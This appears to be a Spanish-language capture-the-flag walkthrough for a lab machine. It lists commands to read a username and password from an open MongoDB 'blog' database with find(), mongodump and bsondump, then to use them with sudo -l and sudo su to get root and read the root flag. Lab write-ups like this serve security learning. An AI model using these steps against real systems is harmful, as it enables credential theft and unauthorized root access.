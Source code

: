 ❯ **mongo** Con ese comando nos podemos conectar a mongo 
Una vez dentro de mongo hacemos lo siguiente 	
	**>help** Para ver que comando podemos usar y vemos que podemos listar bases de datos 
	**>show dbs** Listamos las bases de datos y encotramos varias como (admin,blog...)
	**>use blog** Usamos la base de datos llamada blog 
	**>show collections** Mostramos contenido y encontramos users
	**>db.users.find()** Para listar el contenido y encontramos el usuario y password
	**>bye** Salimos de mongo

o en lugar de hacer lo de arriba podemos colocar el siguiente comando:
❯ **mongodump** Nos crea el directorio dump  
❯ **ls** Listamos el contenido creado
❯ **cd dump/** Nos vamos al directorio dump y ahi miramos toda la informacion 
❯ **cd blog/** Nos metemos al directorio blog y ahi miramos los archivos en formato bson 
❯ **bsondump users.bson** Miramos el usuario y password 

❯ **sudo -l** Miramos los privilegios en el sudoers (l=ele) y le colocamos la passwd que habiamos encontrado 
Miramos que el usuario admin tiene: 
	(ALL) ALL
	(ALL : ALL) ALL 
Por lo que podemos hacer cualquier comando con sudo sin proporcionar una password y procedemos a hacer lo siguiente
❯ **sudo su** Aqui nos convertiremos en usuario root sin passwd 
Solo queda ir al dir root
**/root/root.txt** y mirar la flag de root 